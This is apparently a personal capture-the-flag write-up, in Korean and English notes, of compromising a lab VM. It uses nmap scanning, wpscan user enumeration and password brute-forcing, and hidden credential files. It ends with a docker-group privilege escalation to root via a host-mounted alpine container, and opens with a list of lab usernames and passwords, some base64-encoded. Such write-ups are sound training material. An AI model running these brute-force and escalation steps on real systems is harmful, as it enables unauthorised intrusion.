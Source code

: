 Wordpress
	firewall_admin - firework
	JY - archives
	JiH - articles
	JH - article
	MJ - archive
Linux
	root - firewallrootpassword
	JY - YXJjaGl2ZXM=
	JIH - YXJ0aWNsZXM=
	JH - YXJ0aWNsZQ==
	MJ - YXJjaGl2ZQ==
	linux_adnmin - 
		YWxpY2UJYWxpMTIxMg0KYm9iCXBhc3N3b3JkMTIzDQpjaGFybGllCXF3ZXJ0eTQ1Ng0KZGF2ZQlsZXRtZWluNzg5DQpKWQlhcmNoaXZlcw0KSmlICWFydGljbGVzDQpldmUJc2VjdXJlUGFzcyENCmZyYW5rCTEyMzQ1YWJjZGUNCmdyYWNlCWlsb3ZlQ3liZXJDaGVmDQpoZWlkaQloZWxsb1dvcmxkOTkNCkpICWFydGljbGUNCml2YW4Jc2VjcmV0X2tleQ0KanVkeQlzdXBlclN0cm9uZ1B3ZA0KTUoJYXJjaGl2ZQ==

# 1. 사전 탐색
`nmap victim IP` : 192.168.56.225(fixed), port 22/80/8080
`http://192.168.56.225/index.html` : html webpage
`http://192.168.56.225:8080` : wordpress -> wpscan 요구

# 2. wpscan
`wpscan --url http://192.168.1.225:8080 --enumerate u,p` : User ID 확인
	![[Pasted image 20241010085016.png]]

첫 번째 포스트 CTF : ignite page sorce 확인
	![[Pasted image 20241010093329.png]]
	![[Pasted image 20241010085314.png]]

`wpscan --url http://192.168.56.225:8080 -U users.txt -P /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt` : ID/PW 확인	
	![[Pasted image 20241010092018.png]]

# 3. MJ(Chef Worker) 계정 로그인
#### wordpress MJ 계정 로그인
	![[Pasted image 20241010092258.png]]
	![[Pasted image 20241010092402.png]]

#### Linux MJ 계정 로그인
ID:MJ / PW:YXJjaGl2ZQ== ("archive" to Base64)

`ls -al` : 숨겨진 List Passcode 파일 - w\[=o%Cvtr7wb ("firewalld" to Ascii85)
	![[Pasted image 20241010101627.png]]

`ls -l /home` : home 폴더, 모든 폴더는 others가 읽고 실행 가능
	![[Pasted image 20241010101651.png]]

`ls -al /home/linux_admin` : linux_admin home 폴더, 숨겨진 PASSWORD 파일 
`cat /home/linux_admin/.PASSWORD` : "Linux Admin PW is made with all user's ID and PW"
	![[Pasted image 20241010101728.png]]

#### Protected: ID/PW List on wordpress
wordpress protected post : "firewalld" 입력
	![[Pasted image 20241010095049.png]]
	![[Pasted image 20241010095132.png]]
	![[Pasted image 20241010095218.png]]

"Linux Admin PW is made with all user's ID and PW" : 모든 ID/PW 복사 -> CyberChef
	![[Pasted image 20241010095608.png]]


# 4. Linux_admin 계정 로그인
ID : linux_admin / PW : cyberchef 참고

`cat ignite_1_first_flag.txt` : linux_admin flag 확인
	![[Pasted image 20241010101832.png]]

# 5. Docker 취약점 확인 및 공격
`id linux_admin` : linux_admin ID 확인
	![[Pasted image 20241010101849.png]]

**Kali**
`docker pull alpine` : alpine docker image download
`docker save -o alpine_image.tar alpine` : alpine image 압축
`scp alpine_image.tar linux_admin@192.168.56.225:/home/linux_admin/` : ssh를 통해 alpine_image.tar 전송

**Linux_admin**
`docker load -i alpine_image.tar` : alpine image download
`docker images` : alpine images 확인
	![[Pasted image 20241010105715.png]]
`docker run -v /:/mnt -it alpine chroot /mnt sh` : docker image:alpine을 이용해 root 접속
	![[Pasted image 20241010105854.png]]

# 6. root 계정 / Flag
![[Pasted image 20241010105937.png]]
